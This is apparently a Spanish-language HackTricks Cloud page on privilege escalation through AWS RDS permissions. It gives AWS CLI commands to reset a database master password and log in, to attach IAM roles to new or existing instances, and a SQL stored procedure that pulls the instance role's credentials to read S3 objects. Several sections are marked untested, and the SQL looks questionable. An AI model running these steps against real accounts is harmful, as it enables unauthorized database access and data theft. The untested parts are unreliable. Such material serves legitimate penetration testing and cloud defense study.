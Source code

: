 # AWS - RDS Privesc

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**swag oficial de PEASS y HackTricks**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PR a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## RDS - Servicio de base de datos relacional

Para obtener más información sobre RDS, consulte:

{% content-ref url="../aws-services/aws-databases/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-databases/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Con ese permiso, un atacante puede **modificar la contraseña del usuario principal** y el inicio de sesión dentro de la base de datos:

```bash
# Obtener el nombre de usuario de la base de datos, el nombre de la base de datos y la dirección
aws rds describe-db-instances

# Modificar la contraseña y esperar un par de minutos
aws rds modify-db-instance \
    --db-instance-identifier <db-id> \
    --master-user-password 'Llaody2f6.123' \
    --apply-immediately

# En caso de postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```

{% hint style="warning" %}
Necesitarás poder **contactar con la base de datos** (por lo general, solo son accesibles desde dentro de las redes).
{% endhint %}

**Impacto potencial:** Encontrar información confidencial dentro de las bases de datos.

### rds-db:connect

Según la [**documentación**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html), un usuario con este permiso podría conectarse a la instancia de la base de datos.

### Abuso de permisos IAM de rol RDS

{% hint style="info" %}
TODO: Test
{% endhint %}

Es posible generar un procedimiento almacenado que abuse del rol RDS para acceder a otros servicios de AWS. Por ejemplo, para leer un bucket S3:

```sql
DELIMITER $$
CREATE PROCEDURE get_s3_object(IN bucket_name VARCHAR(255), IN object_key VARCHAR(255))
BEGIN
    -- Use the environment variables to set the AWS credentials
    SET @aws_access_key_id = @@global.rds_aws_access_key_id;
    SET @aws_secret_access_key = @@global.rds_aws_secret_access_key;
    SET @aws_session_token = @@global.rds_aws_session_token;

    -- Set the S3 bucket and object key
    SET @bucket = bucket_name;
    SET @key = object_key;

    -- Read the object from the S3 bucket
    SET @query = CONCAT("SELECT * FROM S3_OBJECT('",
                        "region=us-west-2;",
                        "bucket=", @bucket, ";",
                        "key=", @key, ";",
                        "access_key_id=", @aws_access_key_id, ";",
                        "secret_access_key=", @aws_secret_access_key, ";",
                        "session_token=", @aws_session_token, ";",
                        "')");

    PREPARE stmt FROM @query;
    EXECUTE stmt;
    DEALLOCATE PREPARE stmt;
END$$
DELIMITER ;
```

Ejecute el procedimiento almacenado para **leer el objeto del bucket S3**:

```sql
CALL get_s3_object('my-bucket', 'my-object-key');
```

### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

Un atacante con los permisos `rds:CreateDBInstance` e `iam:PassRole` puede **crear una nueva instancia de RDS con un rol especificado adjunto**. El atacante puede entonces potencialmente **acceder a datos sensibles** o modificar los datos dentro de la instancia.

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Impacto potencial**: Acceso a datos sensibles o modificaciones no autorizadas en los datos de la instancia de RDS.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

Un atacante con los permisos `rds:AddRoleToDBInstance` e `iam:PassRole` puede **agregar un rol especificado a una instancia de RDS existente**. Esto podría permitir al atacante **acceder a datos sensibles** o modificar los datos dentro de la instancia.

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Impacto potencial**: Acceso a datos sensibles o modificaciones no autorizadas en los datos de la instancia de RDS.

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**swag oficial de PEASS y HackTricks**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PR a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>